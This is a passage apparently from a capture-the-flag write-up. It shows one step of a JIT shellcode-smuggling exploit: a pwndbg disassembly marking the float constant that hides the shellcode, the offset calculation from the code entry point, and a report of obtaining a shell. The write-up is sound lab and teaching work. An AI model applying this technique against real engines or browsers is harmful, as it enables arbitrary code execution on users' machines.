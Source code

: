 We also have to modify the offset from the `code_entry_point` to the smuggled shellcode, by making the calculations in GDB.

```
pwndbg> x/30i 0x556820004040
   0x556820004040:      mov    ebx,DWORD PTR [rcx-0x30]
   0x556820004043:      add    rbx,r14
   0x556820004046:      test   BYTE PTR [rbx+0x1b],0x1
   0x55682000404a:      je     0x556820004051
   0x55682000404c:      jmp    0x55683fe8d1c0
   0x556820004051:      push   rbp
   0x556820004052:      mov    rbp,rsp
   0x556820004055:      push   rsi
   0x556820004056:      push   rdi
   0x556820004057:      push   rax
   0x556820004058:      sub    rsp,0x8
   0x55682000405c:      cmp    rsp,QWORD PTR [r13+0x20]
   0x556820004060:      jbe    0x556820004161
   0x556820004066:      mov    rcx,QWORD PTR [r13+0xce30]
   0x55682000406d:      lea    rdi,[rcx+0x48]
   0x556820004071:      cmp    QWORD PTR [r13+0xce38],rdi
   0x556820004078:      jbe    0x556820004191
   0x55682000407e:      lea    rdi,[rcx+0x38]
   0x556820004082:      mov    QWORD PTR [r13+0xce30],rdi
   0x556820004089:      add    rcx,0x1
   0x55682000408d:      mov    r8,QWORD PTR [r13+0x288]
   0x556820004094:      mov    DWORD PTR [rcx-0x1],r8d
   0x556820004098:      mov    DWORD PTR [rcx+0x3],0xc
   0x55682000409f:      vpcmpeqd xmm0,xmm0,xmm0
   0x5568200040a3:      vpsllq xmm0,xmm0,0x36
   0x5568200040a8:      vpsrlq xmm0,xmm0,0x2
   0x5568200040ad:      vmovsd QWORD PTR [rcx+0x7],xmm0
   0x5568200040b2:      movabs r10,0xceb580068732f68    // <-- smuggled shellcode is here +2
   ...
pwndbg> pi 0x5568200040b2-0x556820004040+2
116
```

and we get our shell :D

![flag-9](level-9/image-1.png)